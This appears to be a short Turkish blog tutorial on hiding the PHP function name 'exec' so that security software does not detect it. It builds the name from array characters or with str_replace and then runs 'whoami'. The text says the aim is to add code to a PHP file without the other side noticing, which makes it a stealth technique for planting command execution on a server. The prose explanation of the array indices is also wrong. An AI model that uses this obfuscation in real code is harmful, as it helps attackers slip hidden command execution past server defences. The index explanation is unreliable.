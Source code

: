 ```yaml
---


---
```


<h1 id="php-fonksiyon-ismini-şifrelemek">Php Fonksiyon ismini şifrelemek</h1>
<p>Şifreleme nedir? Yaptığımız işlerde veya  hayatımızda nasıl bir önemi vardır?<br>
Hep görürüz televizyonda suçlular dinlemelere takılmamak için Elmaya armut der. Aslında verdiğim örnekten yola çıkar isek ifade edeceğimiz şeyi hem biz hemde karşı tarafın anlaması lazım. Bu yol ile amacımızı gizlemiş ve gizlilik alanımızı başarıyla oluşturmuş oluyoruz. Fakat bu gizlilik deşifre olabilir. Konumuza gelelim şimdi PHP’deki genelde <s>yasaklı</s> bazı fonksiyonları biliriz. Eğer bilmiyor isek söyle size şöyle örnek vereyim <code>exec</code> komutu tam bir baş belası haline gelebiliyor eğer ki sunucunuza bir takım iyi veya kötü kişiler erişim sağladıysa.</p>
<p>Genelde bu fonksiyonu içeren kısımları engelleyen yazılımlar var. Bir php dosyasına bir ekleme yapacağız  fakat bunu karşı tarafa hissettirmeden yapmamız gerekiyor. Öyle ise şu yolları deneyebiliriz.Bir Array oluşturup buna fonksiyonumuzun her harfini ekleyelim.</p>
<pre><code>$a = array('x','e','c');
</code></pre>
<p>Peki biz ne yaptık aslında ne yapacağız. PHP’de fonksiyonu bir değişkene atayabiliyoruz .Örnek <code>exec('whoami')</code> bunu komutu ben değişkenle vermek istiyor isem bunu bana mümkün kılıyor PHP , yukarıda oluşturduğumuz Array’ı kullanalım.</p>
<pre><code>$str=$a[1].$a[0].$a[1].$a[2];
</code></pre>
<p>Yav sen oralaya bir şeyler yazdın ama biz bunu anlamadık der gibisiniz.<br>
İş size başta bahsettiğim gibi  şifrelemede olay hem bizim hemde karşı tarafın anlaması burada olayı PHP’ye bırakıyoruz.Değişkenimize şunları atamış olduk bu işlemi yaparak. <code>$a[1]-&gt;e , $a[2]-&gt;x , $a[1]-&gt; e , $a[2]-&gt; c'</code> şimdi kaba kodu bir silelim bakalım değişkenimize ne atanmış.<code>exec</code> değerini değişkenimize başarılı bir şekilde atamış olduk. Şimdi ise onu kullanma vakti geldi.<br>
<code>echo $str('whoami');</code><br>
Çıktı :<br>
<code>testpc\testuser</code><br>
Aslında farklı teknikler ile bu yapıyı genişleyebilirsiniz.Örnek vereyim <code>str_replace</code> kullanarakda aynı sonuç alabiliriz.</p>
<pre><code>$cmd=str_replace("u", "", "ueuxueucu");
echo $cmd('whoami');
</code></pre>
<p>çıktısı yine aynı olacaktır.</p>
<p>Bir seferki konuda görüşmek üzere sağlıcakla Kalın!</p>

